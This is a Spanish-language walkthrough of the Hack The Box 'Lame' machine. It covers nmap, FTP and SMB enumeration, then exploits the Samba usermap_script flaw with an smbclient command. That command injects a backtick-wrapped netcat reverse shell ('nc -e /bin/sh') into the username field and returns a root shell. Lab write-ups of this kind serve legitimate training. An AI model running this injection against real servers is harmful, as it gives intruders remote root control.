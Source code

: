 ```yaml
---
title: Lame Writeup
author: Fuzz3d
date: 2022-08-12 
categories: [Blogging, Tutorial, Hacking]
tags: [htb, hacking, ctf]
render_with_liquid: false
---
```


# Fase de reconocimiento 
Para empezar esta maquina debemos comenzar con la fase de reconocimiento la cual consiste en recolectar la mayor informacion posible como: 

- Recopilación de dominios/IPs/puertos/servicios
- Recopilación de metadatos
- Uso de Google Dorks
- Recopilación de información gracias a servicios de terceros

La primera parte es identificar si la maquina esta activa con una traza ICMP, podemos hacerlo con la herramienta ping

```bash
ping -c 1 X.X.X.X
```
Podemos ver que la maquina esta activa y ademas nos damos cuenta que es una maquina Linux debido al TTL, que significa Time To Live y esto nos indica por cuántos nodos puede pasar un paquete antes de ser descartado por la red o devuelto a su origen.

Cada maquina tiene su TTL caracteristico, el de Linux es 64, pero en este caso es 63 debido a que pasa por un intermediario antes de llegar al destino.

- Linux/Unix: 64
- Windows: 128
- MacOS: 64
- Solaris/AIX: 254

Una vez que nuestra maquina esta activa podemos continuar con el reconocimiento, en este caso utilizaremos nmap para escanear la ip de la maquina y encontrar servicios activos. 

```bash
nmap -sC -sV -A -oN Lame.txt X.X.X.X
```

- -sC → Escanea con scripts de NSE por defecto
- -sV → Intenta determinar la versión del servicio que se ejecuta en el puerto
- -A → Permite la detección del sistema operativo, la detección de versiones, el escaneo de scripts y el traceroute
- -vvv → Aumentar el nivel de verbosidad
- -oN → Salida normal al archivo normal.file

Cuando ya ha terminado nuestro escaneo podemos observar que nos arroja distintos puertos abiertos 

- 21 → FTP
- 22 → SSH
- 139 → SMB
- 445 → SMB

Que es SMB? Server Message Block  es un protocolo de red que permite compartir archivos, impresoras, etcétera, entre nodos de una red de computadoras que usan el sistema operativo Microsoft Windows.

Gracias a la serie de scripts de reconocimiento que tiene nmap, encontramos que la opcion de conectarnos a ftp sin proporcionar password esta habilitada.

```bash
ftp X.X.X.X
```

![image](https://user-images.githubusercontent.com/100166954/185273904-f13eac03-9622-4453-ac2e-972831c06a7c.png)

Pero no encontramos nada asi que toca seguir buscando.

Con crackmapexec podemos encontrar carpetas compartidas en el servicio smb utilizando un null sesion.

```bash
crackmapexec smb X.X.X.X -u '' -p '' --shares
```

![image](https://user-images.githubusercontent.com/100166954/185273952-11914dc8-81bc-470a-a216-f6f706760e82.png)

Para conectarnos a un recurso con smbclient utilizamos este comando:

```bash
smbclient //X.X.X.X/tmp -N --option="client min protocol=NT1
```

El --option es para que no nos salte el molesto error de nt_status_connection_disconnect

Investigando no pudimos encontrar nada asi que podemos buscar exploits relacionados con la version de samba.

![image](https://user-images.githubusercontent.com/100166954/185274290-aad07d83-b4b5-4ee8-838a-0be9c21209bd.png)

```bash
searchsploit -x unix/remote/16320.rb
```

El script nos dice que debemos conectarnos y en el campo username inyectar un comando.

![image](https://user-images.githubusercontent.com/100166954/185274413-cebebd5e-f956-49b0-a56f-176a4fe41af8.png)

Y con la herramienta tcpdump podemos escuchar trazas icmp

```bash
tcpdump -i tun0 icmp -n
```
![image](https://user-images.githubusercontent.com/100166954/185274502-6ec2f0db-e931-488a-9c11-60cfff83294c.png)

Ya tenemos una manera critica de ejecutar comandos en la maquina.

![image](https://user-images.githubusercontent.com/100166954/185274570-d2bf834b-659e-4377-93d6-d3976171286e.png)

De esta manera podemos ejectuar comandos y ver que usario ejectua comandos entonces, nosotros estando en escucha con netcat por el 443 recibimos este output

![image](https://user-images.githubusercontent.com/100166954/185274615-2c47ae3e-0741-4639-b2a2-ad2c6a90d5ec.png)

Ahora toca enviarnos una reverse shell, estando en escucha con netcat. Este seria el comando a ejecutar para recibir la shell:

```bash
smbclient //X.X.X.X/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/sh X.X.X.X 443`"'
```

Y recibimos una consola como usuario root, ya el resto seria buscar las flags dentro de la maquina, happy hacking :)

![image](https://user-images.githubusercontent.com/100166954/185274946-2c4f759b-60bd-47e1-808e-fe03efb90473.png)
